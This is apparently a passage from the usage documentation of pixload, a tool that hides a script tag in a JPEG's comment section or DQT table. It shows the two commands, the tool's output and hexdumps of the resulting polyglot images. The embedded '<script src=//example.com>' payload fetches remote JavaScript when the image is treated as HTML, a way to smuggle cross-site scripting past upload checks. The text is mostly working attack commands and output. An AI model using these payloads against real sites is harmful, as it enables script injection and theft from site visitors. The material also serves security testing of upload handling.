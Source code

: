 1. Inject payload into comment section:

```sh
$ pixload-jpg -S com payload.jpg
```

```
..... JPEG Payload Creator/Injector ......
..........................................
... https://github.com/sighook/pixload ...
..........................................

[>] Generating output file
[✔] File saved to: payload.jpg

[>] Injecting payload into COMMENT
[✔] Payload was injected successfully

payload.jpg: JPEG image data, progressive, precision 8, 1x1, components 1

00000000  ff d8 ff fe 00 25 3c 73  63 72 69 70 74 20 73 72  |.....%<script sr|
00000010  63 3d 2f 2f 65 78 61 6d  70 6c 65 2e 63 6f 6d 3e  |c=//example.com>|
00000020  3c 2f 73 63 72 69 70 74  3e ff db 00 43 00 01 01  |</script>...C...|
00000030  01 01 01 01 01 01 01 01  01 01 01 01 01 01 01 01  |................|
*
00000060  01 01 01 01 01 01 01 01  01 01 01 01 01 01 ff c2  |................|
00000070  00 0b 08 00 01 00 01 01  01 11 00 ff c4 00 14 00  |................|
00000080  01 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  03 ff da 00 08 01 01 00  00 00 01 3f ff d9        |...........?..|
0000009e
```

2. Inject payload into DQT table:

```sh
$ pixload-jpg -S dqt payload.jpg
```

```
..... JPEG Payload Creator/Injector ......
..........................................
... https://github.com/sighook/pixload ...
..........................................

[>] Generating output file
[✔] File saved to: payload.jpg

[>] Injecting payload into DQT table
[✔] Payload was injected succesfully

payload.jpg: JPEG image data, progressive, precision 8, 1x1, components 1

00000000  ff d8 ff db 00 43 00 01  01 01 01 01 01 01 01 01  |.....C..........|
00000010  01 01 01 01 01 01 01 01  01 01 01 01 01 01 01 01  |................|
00000020  01 01 01 01 3c 73 63 72  69 70 74 20 73 72 63 3d  |....<script src=|
00000030  2f 2f 65 78 61 6d 70 6c  65 2e 63 6f 6d 3e 3c 2f  |//example.com></|
00000040  73 63 72 69 70 74 3e ff  c2 00 0b 08 00 01 00 01  |script>.........|
00000050  01 01 11 00 ff c4 00 14  00 01 00 00 00 00 00 00  |................|
00000060  00 00 00 00 00 00 00 00  00 03 ff da 00 08 01 01  |................|
00000070  00 00 00 01 3f ff d9 01  01 11 00 ff c4 00 14 00  |....?...........|
00000080  01 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  03 ff da 00 08 01 01 00  00 00 01 3f ff d9        |...........?..|
0000009e
```
